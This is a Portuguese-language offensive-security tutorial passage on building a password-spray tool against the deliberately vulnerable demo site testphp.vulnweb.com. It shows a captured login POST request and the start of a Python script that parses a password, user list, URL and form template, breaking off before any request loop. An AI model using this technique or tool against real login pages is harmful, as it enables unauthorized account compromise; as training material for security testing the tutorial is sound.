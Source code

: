 
## **<a id="1"> • Tool password spray.</a>**

Nesse tópico, iremos criar uma ferramenta para realizar um `password spray` no site `http://testphp.vulnweb.com/`.

Para isso, primeiramente iremos interceptar a requisição de login e analisar o que está sendo enviado para o back-end quando realizamos o login.

```
POST /userinfo.php HTTP/1.1
Host: testphp.vulnweb.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 22
Origin: http://testphp.vulnweb.com
Connection: close
Referer: http://testphp.vulnweb.com/login.php
Upgrade-Insecure-Requests: 1

uname=sonael&pass=neto
```

Podemos ver que o site está enviando os dados de login através de um `POST` para a página `userinfo.php` com os parâmetros `uname` e `pass`.

<div class="page"/>

Com essas informações podemos criar um script em python que irá realizar várias requisições com diferentes combinações de usuários.

```python
#Made by Sonael Neto

import getopt, sys, requests

argumentList = sys.argv[1:]

options = "p:u:hU:d:"

long_options = ["password", "users", "help", "url", "data"]

headers = {'Content-Type': 'application/x-www-form-urlencoded'}

try:
    # Parsing argument
    arguments, values = getopt.getopt(argumentList, options, long_options)
    # checking each argument
    for currentArgument, currentValue in arguments:
        if currentArgument in ("-p", "--password"):
            password = currentValue
        elif currentArgument in ("-U", "--url"):
            url = currentValue
        elif currentArgument in ("-d", "--data"):
            data = currentValue
        elif currentArgument in ("-u", "--users"):
            file = open(currentValue, "r")
        elif currentArgument in ("-h", "--help"):
            print('Usage: python3 password_spray.py -p "password" -u users.txt -U "url" -d "uname=USERS&pass=PASS"')

except getopt.error as err:
    # output error, and return with an error code
    print (str(err))
```